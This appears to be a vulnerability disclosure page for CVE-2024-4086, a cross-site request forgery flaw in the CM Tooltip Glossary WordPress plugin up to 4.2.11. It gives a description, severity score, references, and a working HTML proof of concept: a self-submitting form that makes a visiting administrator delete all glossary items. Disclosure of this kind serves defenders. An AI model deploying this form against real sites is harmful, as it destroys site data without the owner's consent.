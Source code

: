 ```yaml
---
layout: page
title: CVE-2024-4086
subtitle: CM Tooltip Glossary – Powerful Glossary Plugin <= 4.2.11 - Cross-Site Request Forgery
---
```

## Description
The CM Tooltip Glossary – Powerful Glossary Plugin plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.11. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings or reset them via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity

 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N]([https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N))

## Affected Version
    <= 4.2.11

## PoC :
```
<html>
  <!-- Made by eneriiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=cmtt_settings" method="POST">
      <input type="hidden" name="cmtt&#95;removeAllItems" value="Remove&#32;all&#32;items" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset/3076616/enhanced-tooltipglossary/trunk/settings/CMTT_Settings.php?contextall=1&old=3029791&old_path=%2Fenhanced-tooltipglossary%2Ftrunk%2Fsettings%2FCMTT_Settings.php
- https://www.cve.org/CVERecord?id=CVE-2024-4086
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/enhanced-tooltipglossary/cm-tooltip-glossary-powerful-glossary-plugin-4211-cross-site-request-forgery

